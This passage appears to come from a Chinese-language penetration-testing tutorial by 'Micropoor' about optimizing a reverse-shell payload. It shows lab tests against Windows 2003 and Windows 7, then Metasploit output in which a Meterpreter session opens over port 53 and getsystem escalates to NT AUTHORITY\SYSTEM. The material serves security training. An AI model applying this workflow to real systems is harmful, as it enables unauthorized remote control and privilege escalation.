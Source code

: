 ![](media/583f8432508fadce87963dda9074623a.jpg)

**第三次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。并且最终编译运行库依然为：**/MT**  

![](media/4e172aa523497f62e049cc0e7dfb622a.jpg)

![](media/25c74a3a578b2e23477821175b489769.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 11 opened (192.168.1.5:53 ‐> 192.168.1.119:3894) at 2019‐01‐27 14:56:30 ‐0500 6
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 3152
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
![](media/74defd3d7b4b42c88aadac9d9d4fd476.jpg)

### 第四次优化payload：

.......

文中的前三次优化，三次生成，已满足大部分实战场景。当遇到更苛刻的实战场景，75776字节优化到3174字节，接下来的季中，会继续优化。

>   Micropoor
